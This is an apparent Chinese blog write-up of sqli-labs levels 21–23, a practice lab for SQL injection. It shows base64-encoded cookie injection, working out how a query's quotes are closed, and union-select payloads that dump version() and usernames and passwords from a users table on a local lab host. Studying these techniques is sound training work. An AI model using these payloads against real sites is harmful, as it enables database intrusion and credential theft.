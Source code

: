 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:     sqli-labs21-30关  # 标题 
subtitle:      #副标题
date:       2020-07-03         # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - sqli-labs
  
---
```


## ***Less-21 Cookie Injection- Error Based- complex - string***

这关跟上关一样，也是cookie,只不过将cookie经过base64编码了，

将`admin'`base64编码后进行测试`Cookie: uname=YWRtaW4n`

报错：`'admin'') LIMIT 0,1` ，可以看出闭合方式为单引号加括号，`')`

其余步骤和上关一样。(cookie要经过base64编码)

## ***Less-22 Cookie Injection- Error Based- Double Quotes - string***

cookie处编4加上单引号没报错，注意此关也需要base64编码。

加上双引号报错： `"admin"" LIMIT 0,1`,说明闭合方式为双引号`"`

其余操作和20关类似。

## ***Less-23 **Error Based- no comments*****

`http://192.168.2.222/sqli-labs-master/Less-23/?id=1'`报错。`'1'' LIMIT 0,1`可看出字符型单引号闭合。

但当我们用`--+`或者`%23`注释时，还是报错，且双写不能绕过。`' LIMIT 0,1`,从报错内容可以看出注释符被转换成了空，导致前面多余的单引号无处安放，多余了一个单引号。

所以我们可以尝试把它闭合。`http://192.168.2.222/sqli-labs-master/Less-23/?id=1' and '1'='1`页面回显正常，说明成功闭合。

但此时我们就不能用 order by 判断字段数了，但我们可以利用select一个一个试，当我们`select 1,2,3`的时候，页面不报错了，所以说有三个字段。

`http://192.168.2.222/sqli-labs-master/Less-23/?id=-1' union select 1,version(),3  and '1'='1`,其余查询和前面的操作基本类似。
但此时回显位置只有2和3，而且由于3位置先和后面的and做运算，所以始终为1或者0，所以只能在2处注入。

此处还可以进行`;%00`注释
`http://192.168.2.222/sqli-labs-master/Less-23/?id=-1' union select 1,2,group_concat(username,password) from users ;%00`

## ***Less-23 **Error Based- no comments*****
